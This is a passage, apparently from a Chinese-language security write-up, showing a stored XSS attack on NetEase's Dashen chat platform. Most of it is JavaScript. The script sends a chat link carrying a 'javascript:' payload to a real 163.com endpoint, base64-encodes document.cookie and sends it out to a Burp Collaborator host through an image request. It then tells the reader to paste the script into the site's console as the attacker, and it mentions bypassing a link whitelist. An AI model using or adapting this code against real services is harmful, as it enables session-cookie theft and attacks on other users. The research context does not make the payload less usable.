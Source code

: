         // 构造POST发送请求
        const myPostFetch = async (url, headers, payload) => {
            let data = await fetch(url, {
                method: 'POST',
                headers: headers,
                credentials: 'include',
                body: JSON.stringify(payload),
            })
            let res = await data.json();
            return res
        }

        // 通过img src来向burpsuite collaborator url外送敏感新信息
        const justSend = async url => {
            var Img = new Image
            Img.src = url
        }

        // base64 加解密
        const encode = str => {
            var b64 = btoa(unescape(encodeURIComponent(str)))
            return b64
        }
        const decode = str => {
            var str = decodeURIComponent(escape(atob(str)));
            return str
        }
        //获取并发送cookie，带有手机号
        const sendCookie = () => {
            var encoded = encode(document.cookie)
            // send data
            justSend(api_burp + '?data=' + encoded)
        }

        // 发送xss payload
        const startSendLinkMessage = async function () {

            // 链接，设置fromUid为攻击者的UID
            var payload_json = { "serverId": "0149881871", "channelId": "1459515", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": { "attachType": "link", "attachData": { "title": "点击惊喜", "url": "javascript://%0aalert(\"xss\");", "desc": "XXXXXXXSSSSSSSSS", "icon": "https://baidu.com/p.png" } }, "contentType": "SHARE" }

            var headers = setHeaderDs(JSON.stringify(payload_json))
            res = await myPostFetch('https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg', headers, payload_json)
        }
        startSendLinkMessage()
6. 将上面的脚本复制到大神页面的console执行，注意修改请求体的fromUid为攻击者的Uid，执行后，链接发送成功，受害者点击后，首先网页提示非大神链接谨慎访问（前端会检测链接是否在白名单中，如果不在则提示链接风险，但是可以绕过，见下文），点击打开，XSS弹框出现！
